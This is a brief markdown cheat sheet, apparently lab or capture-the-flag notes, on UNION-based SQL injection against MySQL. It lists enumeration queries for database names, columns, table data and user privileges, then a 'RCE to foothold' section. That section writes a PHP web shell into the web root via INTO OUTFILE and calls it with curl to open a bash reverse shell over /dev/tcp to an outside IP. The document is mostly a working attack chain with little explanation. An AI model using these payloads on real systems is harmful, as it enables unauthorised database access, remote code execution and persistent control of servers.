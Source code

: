 # Everything start from 'UNION
### GET table_names Put the database() position as same as the 'a' 
`select database()`
### GET column names
`select column_name from information_schema.columns where table_name = 'registration'`
### GET data from column
`select regtime from registration`
### Check for what privileges the user has
`select privilege_type FROM information_schema.user_privileges where grantee = "'uhc'@'localhost'"`
### A little complicated sample
https://shahjerry33.medium.com/sql-injection-remote-code-execution-double-p1-6038ca88a2ec

### RCE to foothold
```
select "0xdf was here!" into outfile '/var/www/html/0xdf.txt'
select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/0xdf.php' # Use request not GET
curl 10.129.217.205/0xdf.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.16.9/443 0>&1"'
```
##### Burp
`--data-urlencode` equivalent to Burp `ctrl+u`